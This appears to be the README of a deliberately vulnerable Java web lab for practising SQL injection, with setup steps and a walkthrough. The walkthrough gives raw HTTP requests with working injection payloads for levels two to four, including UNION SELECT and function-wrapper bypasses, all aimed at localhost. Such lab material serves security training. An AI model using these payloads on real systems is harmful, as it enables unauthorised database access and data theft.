






# XG注了个注

来玩玩SQL注入吧


## 配置

1、配置三个文件mysql数据库用户名密码，默认root/root







2、在数据库中执行/sql/test.sql文件



3、更新pom.xml文件mysql数据库驱动版本为自己数据库版本



4、idea配置tomcat后运行


## 开始

访问index.jsp



目前就七关，通过注入获取flag，方式不限，玩的开心

```
公众号: XG小刚
项目链接: https://github.com/xiaogang000/XG_JLGJ
```


## WP 

第一关：sqlmap

第二关：https://mp.weixin.qq.com/s/5HU1LrcXWKPHuebRXnmreA

```
POST /XG_JLGJ_war/sqldemo2 HTTP/1.1
Host: 127.0.0.1:8084
Content-Type: application/x-www-form-urlencoded
Content-Length: 81

tablename=${name}&name=name`= ?) union select 1,flag,1,1,1 from sqldemo2.test %23
```

第三关：

```
POST /XG_JLGJ_war/sqli3 HTTP/1.1
Host: 127.0.0.1:8090
Content-Type: application/x-www-form-urlencoded
Content-Length: 75

name=Bob' and sql('1=2 union select 1,2,3,4,flag from xgattack.test -- ')='
```

```
POST /XG_JLGJ_war/sqli3 HTTP/1.1
Host: 127.0.0.1:8090
Content-Type: application/x-www-form-urlencoded
Content-Length: 82

name=Bob' and function('1=2 union select 1,2,3,4,flag from xgattack.test -- ',1)='
```

第四关：

```
POST /XG_JLGJ_war/sqli4 HTTP/1.1
Host: 127.0.0.1:8090
Content-Type: application/x-www-form-urlencoded
Content-Length: 86

name=Bob' and function('1=2 union select 1,2,3,4,flag from xgattack.test where ',1)='1
```

